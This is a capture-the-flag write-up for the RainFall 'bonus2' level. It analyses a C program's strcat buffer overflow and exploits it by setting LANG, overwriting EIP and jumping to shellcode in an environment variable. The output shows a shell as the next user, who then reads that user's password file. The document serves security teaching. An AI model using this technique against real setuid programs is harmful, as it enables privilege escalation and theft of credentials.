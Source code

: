 ## Context

The program has a main() function and a greetuser() function, and expects two parameters. Using the strncmp() function, up to 40 bytes of the first parameter are copied into a buffer, then up to 32 bytes of the second parameter are copied into the same buffer with an offset of 40 bytes. A global variable `language` is then defined according to the environment variable LANG (1 if LANG = "fi", 2 if LANG = "nl").

The greetuser() function is then called, with the buffer as parameter, which has a maximum size of 72 bytes.

A greeting message in the language specified by the global variable `language` is copied into an other buffer of 72 bytes, then the parameter is concatenated to this second buffer with the strcat() function. The content of this second buffer is finally displayed using the puts() function.

## Lead

As for the bonus0, we can enter a first parameter of size equal to or greater than 40, so that the string is not null-terminated. So, by giving a second parameter big enough, we can manage to generate a segmentation fault in the greeting() function. We can try to overwrite the address pointed by EIP.

## Exploit

If we do not modify the environment variable LANG, the greeting message will be "Hello ". We notice that even with the maximum size of the buffer (40 + 32 bytes), we cannot overwrite EIP. So we will have to modify the environment variable LANG in order to have a longer greeting message and thus hope to reach EIP.
```
bonus2@RainFall:~$ export LANG="nl"
```
The greeting is then "Goedemiddag! ". In this way we can overwrite the value of EIP by filling in 40 + 27 bytes. We can now reuse the shellcode environment variable that we defined in bonus0 (at address 0xbffffeca):
```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xca\xfe\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
We can now reach to the next level with the command `su bonus3` and fill in the flag found as a password.